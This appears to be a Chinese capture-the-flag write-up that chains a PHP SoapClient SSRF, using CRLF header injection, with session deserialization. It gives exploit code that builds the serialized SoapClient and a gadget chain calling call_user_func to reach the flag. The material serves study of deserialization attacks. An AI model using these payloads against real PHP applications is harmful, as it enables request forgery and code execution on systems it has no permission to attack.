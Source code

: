 ssrf生成session反序列化

```php
<?php
$target = 'http://127.0.0.1/interface.php';
$headers = array(
    'X-Forwarded-For: 127.0.0.1',
    'Cookie: user=xZmdm9NxaQ==',
);

$b = new SoapClient(null, array('location' => $target, 'user_agent'=>'wupco^^Content-Type: application/x-www-form-urlencoded^^'.join('^^',$headers),'uri'=>'aabb'));
$a = serialize($b);
$a = str_replace('^^', "\r\n", $a);
echo $a;
// echo urlencode($a);

```

序列化生成, 触发反序列化后进而触发session的反序列化

```php
$first = new bb();
$second = new aa();
$third = new cc();
$four = new ee();
$first ->mod1 = $second;
$third -> mod1 = $four;
$f = new dd();
$f->flag='Get_flag';
$f->b='call_user_func';
$four -> str1 = $f;
$four -> str2 = "getflag";
$second ->mod2['test2'] = $third;

echo serialize($first);
```

> PHPSESSID随便指定写一个比如kk默认情况下会生成sess_kk session文件

![image-20211114141933229](image-20211114141933229.png)



![image-20211114141940499](image-20211114141940499.png)



参考

https://www.smi1e.top/lctf2018-bestphps-revenge-%E8%AF%A6%E7%BB%86%E9%A2%98%E8%A7%A3/

 http://www.91ri.org15925.html

https://skysec.top/2017/08/16/jarvisoj-web/#PHPINFO

https://blog.spoock.com/2016/10/16/php-serialize-problem/

https://www.freebuf.com/vuls/202819.html

